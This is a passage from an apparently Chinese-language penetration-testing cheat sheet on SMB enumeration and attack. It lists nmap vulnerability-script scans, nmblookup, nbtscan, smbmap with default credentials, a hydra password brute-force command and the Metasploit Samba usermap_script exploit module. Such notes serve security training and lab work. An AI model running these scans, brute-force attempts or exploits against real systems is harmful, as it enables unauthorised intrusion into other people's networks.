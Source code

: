 #### [](#nmap-1)nmap

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```bash<br>nmap -sV -p 445 IP<br>nmap -sV -v -p 445 --script=smb-vuln*<br>``` |

#### [](#nmblookup)nmblookup

nmblookup 用于查询 NetBIOS 名称，并使用基于 TCP/IP 的 NetBIOS 查询将它们映射到网络中的 IP 地址。这些选项允许将名称查询定向到特定的 IP 广播区域或特定的机器。所有查询都通过 UDP 完成。

nmblookup 是用于枚举域/工作站和 MAC 地址的有用命令

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>nmblookup -A 192.168.1.139<br>``` |

#### [](#nbtscan)nbtscan

扫描在本地或远程 TCP/IP 网络上 NetBIOS 打开的名称服务器，因为这是查找打开共享的第一步

可以在整个子网中工作，而不是在单个 IP 上工作

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>nbtscan 192.168.1.1/24<br>``` |

#### [](#smbmap)SMBMap

SMBMap 允许用户枚举整个域中的 samba 共享驱动器。列出共享驱动器，驱动器权限，共享内容，上载/下载功能，文件名自动下载模式匹配，甚至执行远程命令。旨在简化大型网络中潜在敏感数据的搜索。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```cmd<br>smbmap -H 192.168.1.139<br>smbmap -H 192.168.1.139 -u msfadmin -p msfadmin<br>``` |

### [](#%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3-2)暴力破解

#### [](#hydra-3)hydra

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>hydra -L user.txt -P pass.txt -v smb://ip<br>``` |

### [](#%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C)命令执行

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```fallback<br>search smb 3.0.20<br>use exploit/multi/samba/usermap_script<br>``` |

## [](#zookeeper)Zookeeper
